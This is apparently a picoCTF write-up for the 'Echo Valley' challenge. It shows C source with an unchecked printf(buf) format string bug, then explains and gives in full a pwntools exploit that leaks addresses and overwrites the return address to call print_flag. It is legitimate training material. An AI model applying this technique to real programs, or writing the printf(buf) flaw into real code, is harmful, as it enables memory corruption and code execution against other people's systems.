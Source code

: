 ```yaml
---
title: "Echo Valley"
categories: Binary Exploitation
tags: 
draft: false
completedDuringEvent: true
submitted: true
flags: picoCTF{REDACTED}
---
```

> The echo valley is a simple function that echoes back whatever you say to it.
> But how do you make it respond with something more interesting, like a flag?

by Shuailin Pan (LeConjuror)

---

<details>
<summary>Hint 1</summary>

Ever heard of a format string attack?
</details>

---

The challenge provides a binary `valley` and a remote server to connect to. The binary is a simple program that reads input from the user and prints it back to the user. The binary also contains a function `print_flag` that reads the flag from a file and prints it to the user.

```c
void print_flag() {
    char buf[32];
    FILE *file = fopen("/home/valley/flag.txt", "r");

    if (file == NULL) {
      perror("Failed to open flag file");
      exit(EXIT_FAILURE);
    }
    
    fgets(buf, sizeof(buf), file);
    printf("Congrats! Here is your flag: %s", buf);
    fclose(file);
    exit(EXIT_SUCCESS);
}

void echo_valley() {
    printf("Welcome to the Echo Valley, Try Shouting: \n");

    char buf[100];

    while(1)
    {
        fflush(stdout);
        if (fgets(buf, sizeof(buf), stdin) == NULL) {
          printf("\nEOF detected. Exiting...\n");
          exit(0);
        }

        if (strcmp(buf, "exit\n") == 0) {
            printf("The Valley Disappears\n");
            break;
        }

        printf("You heard in the distance: ");
        printf(buf);
        fflush(stdout);
    }
    fflush(stdout);
}
```

The goal of the challenge is to print the flag to the user. The `print_flag` function is not called in the binary, so we need to find a way to call it. The binary is vulnerable to a format string attack. We can use the format string vulnerability to overwrite some memory to call the `print_flag` function. The binary is compiled with the `FULL RELRO` option, so we cannot overwrite the GOT table. We can use another technique to call the `print_flag` function. We can overwrite the return address of the `echo_valley` function to call the `print_flag` function.

The binary is compiled with the `PIE` option, so the base address of the binary is randomized. We can leak the base address of the binary by using the format string vulnerability. We can also leak the stack address by using the format string vulnerability. We can calculate the return address of the `echo_valley` function by adding 8 to the leaked stack address. We can calculate the offset of the format string vulnerability by using the `FmtStr` class from the `pwntools` library. We can then use the `fmtstr_payload` function from the `pwntools` library to create a payload to overwrite the return address of the `echo_valley` function to call the `print_flag` function.

```py
from pwn import *

binary = './valley'

context.log_level = 'debug'
context.binary = binary

e = ELF(binary)
r = process(binary)
# r = remote('shape-facility.picoctf.net', 65453)

def exec_fmt(payload):
    p = process(binary)
    p.recvuntil(b'Welcome to the Echo Valley, Try Shouting:')
    p.sendline(payload)
    p.recvuntil(b'You heard in the distance: ')
    recv = p.recv()
    p.close()
    return recv

autofmt = FmtStr(exec_fmt)
offset = autofmt.offset

r.recvuntil(b'Welcome to the Echo Valley, Try Shouting:')

r.sendline(b'%21$p.%20$p')
r.recvuntil(b'You heard in the distance: ')
leak = r.recvline().strip().split(b'.')
main_address_ = int(leak[0], 16)
stack_address = (int(leak[1], 16))
log.info(f'main_address_: {hex(main_address_)}')

base_address = main_address_ - (0x555555555413 - 0x555555554000)
log.info(f'base_address: {hex(base_address)}')

ret_address = stack_address + 8

payload = fmtstr_payload(offset, { ret_address: base_address + e.sym['print_flag'] }, write_size='short')
r.sendline(payload)
r.sendline(b'exit')

r.interactive()
```
